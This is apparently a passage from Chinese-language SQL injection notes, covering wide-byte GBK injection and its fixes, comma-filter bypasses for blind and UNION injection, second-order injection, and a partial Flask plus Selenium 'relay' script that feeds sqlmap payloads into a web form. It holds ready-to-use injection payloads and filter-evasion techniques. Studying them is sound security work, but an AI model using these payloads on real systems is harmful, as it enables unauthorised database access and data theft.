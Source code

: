 使用PHP函数`iconv('utf-8','gbk',$_GET['id'])`,也可能导致注入产生

**修复建议**
 - 使用mysqli_set_charset(GBK)指定字符集
 - 使用mysqli_real_escape_string进行转义

### 过滤了逗号怎么办

**盲注的时候**
```sql
LIMIT M OFFSET N    
--这里的 M 是最大回显限度，N是偏移量
--与limit N,M 有相同效果

' and ascii(substr((select database()),1,1))=xxx#
--可变为
' and ascii(substr((select database())from 1 for 1))=xxx#
```

**union联合查询注入时**
```sql
union select 1,2,3
union select * from ((select 1)a JOIN (select 2)b JOIN (select 3)c)%23

union select * from ((select 1)a JOIN (select 2)b JOIN (select CONCAT_WS(CHAR(32,58,32),user(),database(),version()))c)%23
```

### 二阶注入

> 当数据首次插入到数据库中时，许多应用程序能够安全处理这些数据；addslashes() 等字符转义函数。
> 
> 一旦数据存储在数据库中，随后应用程序本身或其它后端进程可能会以危险的方式处理这些数据。
> 
> 许多这类应用并不像面向因特网的主要应用程序一样安全，却拥有较高权限的数据库账户。

第一次HTTP请求是精心构造的，为第二次HTTP请求触发漏洞做准备。

[使用Burp和自定义Sqlmap Tamper利用二次注入漏洞](https://www.freebuf.com/articles/web/142963.html)

### 中转注入

> **当网站做了token保护或js前端加密的情况下；**
> 
> 对于这些站点当手工发现了注入点，但并不适用于用sqlmap等工具跑，可以做中转注入；
> 
> 本地起个Server，然后用sqlmap扫这个server，Server接收到payload后加到表单中提交。

**Python+selenium做中转注入**
```python
from flask import Flask
from flask import request
from selenium import webdriver
driver_path = "C:/Users/Administrator/AppData/Local/Programs/Python/Python37/Lib/site-packages/selenium/webdriver/chrome/chromedriver.exe"
chrome = webdriver.Chrome(driver_path)
chrome.get("http://127.0.0.1")#目标注入点
app = Flask(__name__)

def send(payload):
#起到中转payload效果。
  chrome.find_element_by_id("username").send_keys(payload) #把payload填到有注入点的地方
  chrome.find_element_by_id("password").send_keys("aaaa")
  chrome.find_element_by_id("submit").click()
  return "plase see flask server!" #随便返回一下不重要

@app.route('/')
```